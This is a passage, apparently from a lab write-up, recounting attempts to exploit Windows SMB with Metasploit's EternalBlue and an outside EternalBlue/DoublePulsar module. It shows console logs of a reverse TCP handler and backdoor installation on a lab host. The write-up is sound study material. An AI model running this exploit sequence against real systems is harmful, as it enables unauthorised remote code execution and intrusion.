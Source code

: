    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs
    
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > show targets
    
    Exploit targets:
    
       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs
    

#### Outside Module

There are several tutorials out there (like [this
one](https://www.cybrary.it/0p3n/hack-windows-eternalblue-exploit-
metasploit/)) that show how to load an outside exploit into Metasploit to
target x86 machines. To do so, I must load 32-bit Wine. I followed the
tutorial, but I was unable to get a session. It would tell me that the
backdoor was installed, but it was unable to trigger it:

    
    
    msf5 exploit(windows/smb/eternalblue_doublepulsar) > run
    
    [*] Started reverse TCP handler on 10.254.1.47:4444
    [*] 10.1.1.13:445 - Generating Eternalblue XML data
    [*] 10.1.1.13:445 - Generating Doublepulsar XML data
    [*] 10.1.1.13:445 - Generating payload DLL for Doublepulsar
    [*] 10.1.1.13:445 - Writing DLL in /root/.wine/drive_c/eternal11.dll
    [*] 10.1.1.13:445 - Launching Eternalblue...
    [+] 10.1.1.13:445 - Pwned! Eternalblue success!
    [*] 10.1.1.13:445 - Launching Doublepulsar...
    [+] 10.1.1.13:445 - Remote code executed... 3... 2... 1...
    [*] Exploit completed, but no session was created.      
    

On another attempt, it even finds the backdoor, but still returns no shell:

    
    
    msf5 exploit(windows/smb/eternalblue_doublepulsar) > run
                                             
    [*] Started reverse TCP handler on 10.254.1.47:4444
    [*] 10.1.1.13:445 - Generating Eternalblue XML data
    [*] 10.1.1.13:445 - Generating Doublepulsar XML data
    [*] 10.1.1.13:445 - Generating payload DLL for Doublepulsar
    [*] 10.1.1.13:445 - Writing DLL in /root/.wine/drive_c/eternal11.dll
    [*] 10.1.1.13:445 - Launching Eternalblue...
    [+] 10.1.1.13:445 - Backdoor is already installed
    [*] 10.1.1.13:445 - Launching Doublepulsar...
    [+] 10.1.1.13:445 - Remote code executed... 3... 2... 1...
    [*] Exploit completed, but no session was created.
    

The fact that the exploit recognizes the backdoor tells me that the exploit is
working, but that something on my machine isn’t configured correctly. I
expected showing Metasploit to be the easier path. At this point, I’d tell
you, just use AutoBlue!

[](/2019/02/22/wl-dummy.html)

